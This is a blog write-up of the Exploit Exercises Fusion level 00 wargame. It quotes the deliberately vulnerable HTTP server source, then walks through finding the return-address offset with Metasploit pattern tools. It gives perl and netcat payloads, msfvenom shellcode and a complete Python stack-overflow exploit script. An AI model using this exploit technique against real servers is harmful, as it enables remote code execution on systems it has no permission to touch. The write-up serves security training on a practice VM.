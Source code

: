 ```yaml
---
title: "Exploit Exercises - Fusion 00"
date: "2012-04-09T17:13:00-04:00"
comments: true
highlight: "true"
categories:
 - wargames
 - linux
 - exploit-exercises
 - fusion
 - hacking
aliases:
 - "/2012/04/exploit-exercises-fusion-00.html"
 - "/2012/04/09/exploit-exercises-fusion-00"
---
```


I was very excited to see the announcement on twitter, that [Fusion](http://exploit-exercises.com/fusion) was going to be released, even if it's just the first 10 levels. I was a bit bummed, as I didn't think I'd get to work on it much, until I complete [PWB](http://www.offensive-security.com/online-information-security-training/penetration-testing-backtrack/), but I managed to find a little time to at least start it. I pulled up [level 00](http://exploit-exercises.com/fusion/level00), which looks to be a basic stack overflow in an http server. 

<!-- more -->

The code for the server is below: 

```
#include "../common/common.c" 

int fix_path(char *path)
{
 char resolved[128];

 if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
 strcpy(path, resolved);
}

char *parse_http_request()
{
 char buffer[1024];
 char *path;
 char *q;

 printf("[debug] buffer is at 0x%08x :-)\n", buffer);

 if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
 if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

 path = &buffer[4];
 q = strchr(path, ' ');
 if(! q) errx(0, "No protocol version specified");
 *q++ = 0;
 if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

 fix_path(path);

 printf("trying to access %s\n", path);

 return path;
}

int main(int argc, char **argv, char **envp)
{
 int fd;
 char *p;

 background_process(NAME, UID, GID); 
 fd = serve_forever(PORT);
 set_io(fd);

 parse_http_request(); 
}
```

I initially had to read through the code a few times to figure out where the overflow was, to be quite honest. When an HTTP request comes in, it goes to the "parse_http_request" method. From there, it reads the buffr in by using the "read" method. Unfortunately for us, it is being careful to only read in as many bytes as it can put into the buffer.  It then does some basic handling to parse out the request.  It verifies that it was a "GET" request, and that it was done using HTTP/1.1. After that, it will pass the path of the URI to "fix_path". In this method, there <i>IS</i> an overflow, since the "resolved" variable has 128 bytes to hold data, but there is no checking of size when the "strcpy" is done. 

I logged into the machine, and made sure that I could actually get a core dump to be created if the process had an exception.  To do this, I changed the core settings for my user: 

```
fusion@fusion:/$ ulimit -c unlimited
```

Based on my analysis, I knew I would be overflowing the URI path, but based on the note given to me, I would put my shellcode after the "HTTP/1.1" since there was a lot more room.  However, I didn't know the EIP offset. So I generated a quick MSF pattern on another machine: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

I then started to wire up an exploit like so: 

```
fusion@fusion:/$ perl -e 'print "GET /". "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

Note that the "\x99\xf9\xff\xbf" value was simply guessed by taking the buffer offset (conveniently given to us at runtime) of "0xbffff8f8", and adding to it enough bytes for the "GET", the MSF buffer, and the "HTTP/1.1". I had played previously by hand, and knew how long the buffer would be, so I didn't need to break this into 2 steps. 

After executing the command, I found a handy "core" file in the root directory. So I loaded it up in GDB to get the offset: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2280]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x65413665 in ?? ()
```

Next, I took that EIP value, and ran it through the MSF Pattern Offset calculator: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x65413665
139
```

This was convenient enough to let me know that the first 139 bytes were junk, but then I had direct access to the EIP. If my estimate for a return address was close enough to hit a nop sled, it would then hit the "\xcc" debug/trace point. I then tested that: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

When I loaded the new core file into GDB, I saw that it indeed hit the debug trap: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2310]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff9fb in ?? ()
(gdb) x/10x $eip
0xbffff9fb:     0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0xbffffa03:     0xcc    0xcc
```

The next step was to generate some shellcode.   verified that the process was running as a UID of 20000, and not SUID, so I'm guessing at the end result here. The challenge to me was actually getting the exploit to work, so what the shellcode did was not a big event for me.  I decided to just make it write a file to /tmp. This could however be adapted to anything else. 

I used Metasploit's MSFVenom tool to generate me some shellcode to "touch /tmp/poo" as a test: 

```
mandreko@li225-134:~$ msfvenom -p linux/x86/exec -f pl CMD="touch /tmp/poo"
my $buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" .
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00" .
"\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f" .
"\x6f\x00\x57\x53\x89\xe1\xcd\x80";
```

I then plugged that shellcode into my exploit: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
```

Lastly, I verified that it did run the shellcode: 

```
fusion@fusion:/$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-04-09 21:25 .
drwxr-xr-x 22 root  root  4096 2012-04-09 21:22 ..
-rw-r--r--  1 20000 20000    0 2012-04-09 21:25 poo
```

There you have it, successful exploitation, using very basic methods. This one felt very much like the first day back from summer break, but I'm guessing it'll get much harder quickly. 

UPDATE 5/7/2012: Added python exploit: 

```
# Fusion Level 00
# http://exploit-exercises.com/fusion/level00
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20000,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```
